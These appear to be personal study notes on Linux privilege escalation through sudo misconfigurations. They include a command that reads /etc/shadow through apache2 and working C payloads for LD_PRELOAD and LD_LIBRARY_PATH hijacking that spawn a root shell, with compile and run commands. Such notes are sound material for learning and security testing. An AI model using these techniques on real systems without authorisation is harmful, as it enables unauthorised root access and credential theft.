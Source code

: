 #### Useful commands
- Run program using sudo
  - sudo [program]
- Run porgram as specific user
  - sudo -u [username] [program]
- List programs a user allowed to run:
  - sudo -l

#### Other way to privileges
- sudo -s
- sudo -i 
- sudo /bin/bash
- sudo passwd

#### gtfobins
- https://gtfobins.github.io/

#### Case study
- use apache for read shadow file
```
sudo -l output: /usr/sbin/apache2
apache read a line of syntax error
sudo apache2 -f /etc/shadow
```
#### Environment Variables
##### Program run through sudo can inherit the environment variables from the user's environment
in sudowrs config file if env_reset option is set sudo will run programs in a new, miniml env
config options are display when running sudo -l

### LD_PRELOAD
is an environment variable can be set to path of shared object (.so) file
When  set, the shared object will be loaded before any others.
By creating a custom .so and creating init() function, we can execute code as soon as teh object is loaded

sudo must be configured to preserve the LD_PRELOAD environment variable using the env_keep option

LD_PRELOAD will no work if the real user id is defferent from the effective user ID

###### case study
```
sudo -l 
  search for env_keep+=LD_PRELOAD 

create c file:

#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>

void _init(){
  unsetenv("LD_PRELOAD");
  setresuid(0,0,0);
  system("/bin/bash -p");
}
- complie gcc -fPIC -shared -nostartfiles -o /tmp/preload.so ourfile.c

exploitation: sudo LD_PRELOAD=/tmp/preload.so find
```

##### LD_LIBRARY_PATH: env variable contains a set of directories where shared libraries are searched for first

ldd command can be used to pritn the shared libraries
```
ldd /usr/sbin/apache2
```
by createing a shared library with the same name as one used by a program  and setting LD_library_path to its parent  the program will load our shared_library instead 

###### case study
```
sudo -l : search for env_keep+=LD_LIBRARY_PATH
output:
/usr/sbin/apache2
pic one of so file in ths case: libcrypt.so

ldd /usr/sbin/apache2

create c file
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
  unsetenv("LD_LIBARY_PATH");
  setresuid(0,0,0);
  system("/bin/bash/ -p");
} 

- complie: gcc -o libcrypt.so.1 -shared -fPIC ourfile.c
sudo LD_LIBRARY_PATH=. apache2
```
